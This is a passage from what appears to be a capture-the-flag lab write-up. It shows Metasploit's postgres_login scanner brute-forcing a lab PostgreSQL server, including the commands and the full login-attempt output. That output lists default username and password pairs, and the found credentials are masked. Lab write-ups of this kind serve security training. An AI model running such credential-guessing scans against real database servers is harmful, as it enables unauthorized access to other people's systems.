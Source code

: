 5. ##### What are the credentials you found?

To run the scanner we need to first set the rhosts and lhost values. 

````
msf5 auxiliary(scanner/postgres/postgres_login) > set rhosts 10.10.179.1
rhosts => 10.10.179.1
msf5 auxiliary(scanner/postgres/postgres_login) > set lhost tun0
lhost => tun0
msf5 auxiliary(scanner/postgres/postgres_login) > run
````

Once we run the scanner, in some time we get the correct pair of username and password.

```
msf5 auxiliary(scanner/postgres/postgres_login) > run

[!] No active DB -- Credential data will not be saved!
[-] 10.10.179.1:5432 - LOGIN FAILED: :@template1 (Incorrect: Invalid username or password)
[-] 10.10.179.1:5432 - LOGIN FAILED: :tiger@template1 (Incorrect: Invalid username or password)
[-] 10.10.179.1:5432 - LOGIN FAILED: :postgres@template1 (Incorrect: Invalid username or password)
[-] 10.10.179.1:5432 - LOGIN FAILED: :password@template1 (Incorrect: Invalid username or password)
[-] 10.10.179.1:5432 - LOGIN FAILED: :admin@template1 (Incorrect: Invalid username or password)
[-] 10.10.179.1:5432 - LOGIN FAILED: postgres:@template1 (Incorrect: Invalid username or password)
[-] 10.10.179.1:5432 - LOGIN FAILED: postgres:tiger@template1 (Incorrect: Invalid username or password)
[-] 10.10.179.1:5432 - LOGIN FAILED: postgres:postgres@template1 (Incorrect: Invalid username or password)
[+] 10.10.179.1:5432 - Login Successful: xxxxxxxx:xxxxxxxx@template1
[-] 10.10.179.1:5432 - LOGIN FAILED: scott:@template1 (Incorrect: Invalid username or password)
[-] 10.10.179.1:5432 - LOGIN FAILED: scott:tiger@template1 (Incorrect: Invalid username or password)
[-] 10.10.179.1:5432 - LOGIN FAILED: scott:postgres@template1 (Incorrect: Invalid username or password)
[-] 10.10.179.1:5432 - LOGIN FAILED: scott:password@template1 (Incorrect: Invalid username or password)
[-] 10.10.179.1:5432 - LOGIN FAILED: scott:admin@template1 (Incorrect: Invalid username or password)
[-] 10.10.179.1:5432 - LOGIN FAILED: admin:@template1 (Incorrect: Invalid username or password)
[-] 10.10.179.1:5432 - LOGIN FAILED: admin:tiger@template1 (Incorrect: Invalid username or password)
[-] 10.10.179.1:5432 - LOGIN FAILED: admin:postgres@template1 (Incorrect: Invalid username or password)
[-] 10.10.179.1:5432 - LOGIN FAILED: admin:password@template1 (Incorrect: Invalid username or password)
[-] 10.10.179.1:5432 - LOGIN FAILED: admin:admin@template1 (Incorrect: Invalid username or password)
[-] 10.10.179.1:5432 - LOGIN FAILED: admin:admin@template1 (Incorrect: Invalid username or password)
[-] 10.10.179.1:5432 - LOGIN FAILED: admin:password@template1 (Incorrect: Invalid username or password)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/postgres/postgres_lo
```
